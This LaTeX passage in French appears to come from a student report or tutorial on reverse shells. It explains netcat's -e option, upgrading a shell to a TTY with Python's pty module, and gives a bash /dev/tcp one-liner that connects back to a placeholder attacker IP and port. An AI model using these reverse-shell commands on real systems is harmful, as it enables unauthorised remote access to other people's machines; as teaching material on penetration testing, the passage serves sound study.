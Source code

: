 L’option ‘ -e ‘ ou ‘ -c ‘ de Netcat va nous permettre d'exécuter un programme chez un utilisateur distant sur un port donné. Ici, le programme annoncé est : ‘ /bin/sh ‘, soit le shell.\\
Ce type de reverse-shell est extrêmement rapide à mettre en place dès qu’une faille est apparente car les commandes sont intuitives. Cependant, l’attaquant ne reçoit aucune informations au niveau du ‘ tty ‘. Un ‘ tty ‘ est une console virtuelle qui permet de taper des lignes de commandes. Il va donc falloir l’importer afin d’obtenir un reverse-shell digne de ce nom :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/tty_importation_python.PNG}
  \caption{Importation d'un TTY}
  \label{fig:courbe-tikz}
\end{figure}

Pour remédier à ce problème, nous avons importer des commandes shell grâce à Python. Python est un langage informatique basé sur le C. Son argument ‘ -c ‘ va nous permettre de directement taper du Python sur la même ligne de commande. Le code qui suit est très simple car son fonctionnement est sa propre lecture traduite en français. Ceci nous donne : “ Importe le module pty puis, dans ce dernier, utilise la fonction spawn (faire apparaître) avec l’option ‘ /bin/bash ‘. Donc le module ‘ pty ‘ intègre une fonction qui permet de faire afficher des pseudo-terminaux avec le type de shell que l’on souhaite. Ici, nous avons choisi un bash-shell.\\
Nous obtenons à partir de ce point un bash-shell qui correspond au terminal de la cible.
Nous nous sommes, à partir de ce moment précis, introduits pour la première fois au sein d’une machine cible !\\

\noindent \textbf{Bash TCP}\\

Au sein de cette partie, nous allons utiliser du bash avec une ouverture de port sur un serveur TCP comme ceci :

\begin{lstlisting}
    bash -i >& /dev/tcp/ip attaquant/port écoute 0>&1
\end{lstlisting}

